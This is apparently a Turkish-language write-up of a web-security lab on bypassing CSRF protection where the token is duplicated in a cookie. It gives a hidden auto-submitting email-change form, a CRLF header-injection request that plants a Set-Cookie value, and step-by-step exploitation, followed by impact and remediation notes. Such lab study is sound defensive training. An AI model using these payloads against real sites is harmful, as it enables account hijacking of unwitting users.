






# CSRF where token is duplicated in cookie

## 1. Lab Bilgisi

**Difficulty:** Practitioner

## 2. Vulnerability Özeti

Bu labda email değiştirme fonksiyonunda CSRF token hem request body içindeki `csrf` parametresinde hem de `csrf` isimli cookie içinde aynı değerle gönderiliyor. Uygulama token'ı session ile ilişkilendirmek yerine yalnızca body'deki `csrf` değeri ile cookie'deki `csrf` değerinin eşleşip eşleşmediğini kontrol ediyor. Arama fonksiyonu üzerinden response'a `Set-Cookie` header'ı enjekte edilebildiği için kurbanın tarayıcısına saldırganın belirlediği `csrf` cookie değeri yazdırılabiliyor. Böylece aynı değeri formda da göndererek CSRF korumasını bypass ettim.

## 3. Kullanılan Payload

```html
<form action="https://0aab00a203fafdb1804e1778005700d7.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="victimnewemail77@gmail.com">
  <input type="hidden" name="csrf" value="c28m7kpeWqUewENPbizkgW8BFhSpPYVN">
</form>


```

## 4. Exploitation Steps

1. Email değiştirme isteğini Burp Suite ile yakaladım. İstek body kısmında `csrf` parametresi, cookie kısmında ise aynı değere sahip `csrf` cookie'si bulunuyordu.

```http
Cookie: session=...; csrf=c28m7kpeWqUewENPbizkgW8BFhSpPYVN

email=asdas%40gmail.com&csrf=c28m7kpeWqUewENPbizkgW8BFhSpPYVN
```



2. `csrf` değerini hem cookie'de hem de body'de aynı olacak şekilde farklı bir değerle değiştirdim. Uygulama isteği kabul etti ve `302 Found` ile hesap sayfasına yönlendirdi. Bu, token'ın session'a bağlı olmadığını; yalnızca body-cookie eşleşmesinin kontrol edildiğini gösterdi.

```http
Cookie: session=...; csrf=ASD

email=asdas%40gmail.com&csrf=ASD
```



3. Labda bulunan blog arama fonksiyonunu test ettim. Search parametresinin response header tarafında kullanılabildiğini gördüm.



4. Search parametresine CRLF karakterleri ekleyerek response içine `Set-Cookie` header'ı enjekte ettim. Bu sayede kurbanın tarayıcısında `csrf` cookie'si saldırganın seçtiği değerle set edilebilecekti.

```http
GET /?search=test%0d%0aSet-Cookie:%20csrf=c28m7kpeWqUewENPbizkgW8BFhSpPYVN%3b%20SameSite=None HTTP/2
```



5. Exploit server üzerinde önce email değiştirme formunu hazırladım. Formdaki `csrf` parametresi, enjekte edeceğim cookie değeriyle aynıydı. Ardından `img` etiketiyle search endpoint'ine istek attırıp `Set-Cookie` header enjeksiyonunu tetikledim. Görsel yüklenemediğinde `onerror` ile form otomatik gönderilecek şekilde ayarladım.

```html
<form action="https://0aab00a203fafdb1804e1778005700d7.web-security-academy.net/my-account/change-email" method="POST">
  <input type="hidden" name="email" value="victimnewemail77@gmail.com">
  <input type="hidden" name="csrf" value="c28m7kpeWqUewENPbizkgW8BFhSpPYVN">
</form>


```



6. Exploit'i kurbana gönderdim. Kurban sayfayı açtığında önce `csrf` cookie'si saldırganın belirlediği değerle set edildi, ardından aynı `csrf` değeriyle email değiştirme POST isteği gönderildi. Uygulama yalnızca cookie ve body değerlerinin eşleşmesini kontrol ettiği için isteği kabul etti ve lab başarıyla çözüldü.



## 5. Impact

CSRF token'ın cookie içinde duplicate edilmesi ve session'a bağlanmaması, korumayı etkisiz hale getirebilir. Saldırgan kurbanın tarayıcısında ilgili cookie değerini set edebiliyorsa, body ve cookie içinde aynı token'ı göndererek kurbanın oturumu üzerinden state-changing işlemler yaptırabilir. Bu labda email değişikliği yapıldı; benzer zafiyet kritik hesap işlemlerinde hesap ele geçirme riskini artırabilir.

## 6. Remediation

CSRF token değerleri kullanıcı session'ına bağlı olarak üretilmeli ve sunucu tarafında session ile eşleştirilerek doğrulanmalıdır. Token doğrulaması yalnızca request body ve cookie değerlerinin eşleşmesine bırakılmamalıdır. Kullanıcı girdisi response header'larına güvenli olmayan şekilde yansıtılmamalı ve CRLF/header injection engellenmelidir. State-changing işlemler için eksik, hatalı veya session ile eşleşmeyen token değerleri reddedilmelidir.
